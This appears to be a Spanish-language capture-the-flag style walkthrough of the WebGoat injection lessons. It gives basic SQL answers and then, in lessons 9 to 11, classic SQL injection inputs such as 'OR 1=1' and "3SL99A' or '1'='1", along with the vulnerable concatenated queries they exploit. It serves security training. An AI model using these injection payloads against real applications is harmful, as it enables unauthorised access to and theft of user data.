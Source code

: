 # (A3) Injection

## Lesson 2

### Desarrollo

Debemos acceder al departamento del empleado "Bob Franco" mediante una consulta SQL.

Para poder realizar la consulta usaremos el comando `SELECT`:

```sql
SELECT columna FROM tabla WHERE condiciones

-- Ejemplo
SELECT * FROM employees WHERE userid='96134'
SELECT first_name FROM employees WHERE userid='96134'
SELECT department FROM employees WHERE first_name='Bob' AND last_name='Franco'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
SELECT department FROM employees WHERE userid='96134'
```

## Lesson 3

### Desarrollo

Debemos modificar el departamento del empleado "Bob Franco" mediante una consulta SQL a "Sales".

Para poder realizar la consulta usaremos el comando `UPDATE`:

```sql
UPDATE tabla SET columna='valor' WHERE condiciones

-- Ejemplo
UPDATE employees SET first_name = 'Mario' WHERE userid='96134'
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
UPDATE employees SET department='Sales' WHERE userid=96134
```

## Lesson 4

Debemos añadir una columna "phone(varchar(20))" a la tabla "employees".

Para poder realizar la consulta usaremos el comando `ALTER TABLE`:

```sql
ALTER TABLE tabla ADD columna tipo

-- Ejemplo
ALTER TABLE employees ADD hobby varchar(20)
```

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
ALTER TABLE employees ADD phone varchar(20)
```

## Lesson 5

### Desarrollo

Debemos dar permisos al usuario "unauthorized_user" en la tabla "grant_rigths".

Para poder realizar la consulta usaremos el comando `GRANT`:

```sql
GRANT privilegio ON obj TO usuario
```

Donde:

- `privilegio`: Es el permiso que se desea otorgar. Puede ser `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `ALL`.
- `obj`: Es el objeto al que se le otorga el permiso. Puede ser una tabla, vista, procedimiento almacenado, etc.
- `usuario`: Es el usuario al que se le otorga el permiso.

### Solución:

Para completar el ejercicio debemos ingresar el siguiente comando SQL:

```sql
GRANT SELECT ON grant_rigths TO unauthorized_user
```

## Lesson 9

### Desarrollo

Debemos acceder a la información de la tabla de usuarios seleccionando las opciones correctas para completar la consulta SQL inyectada.

La sentencia SQL original es la siguiente:

```sql
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";
```

### Solución

Para completar el ejercicio debemos seleccionar las siguientes opciones:

- `Smith'`
- `OR`
- `1=1`

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE last_name='Smith' OR 1=1
```

## Lesson 10

### Desarrollo

Debemos acceder a la información de la tabla de usuarios.

Tenemos disponibles dos inputs de texto, uno para `Login_Count` y otro para `User_Id`.

### Solución

Para completar el ejercicio debemos ingresar `1` o cualquier otro valor en el campo `Login_Count` y `1 OR '1'='1'` en el campo `User_Id`.

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM user_data WHERE Login_Count=1 OR '1'='1'
```

## Lesson 11

### Desarrollo

Debemos obtener la lista de usuarios completa inyectando una sentencia SQL.

Disponemos de dos inputs de texto, uno para `last_name` y otro para `auth_tan`.

Nuestra sentencia SQL es la siguiente:

```sql
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "'";
```

### Solución

Si queremos obtener la lista completa de usurios debemos ingresar `Smith` en el campo `last_name` y `3SL99A' or '1'='1` para ejecutar la inyección SQL.

De esta forma, la consulta SQL inyectada sería:

```sql
SELECT * FROM employees WHERE last_name='Smith' AND auth_tan='3SL99A' or '1'='1'
```
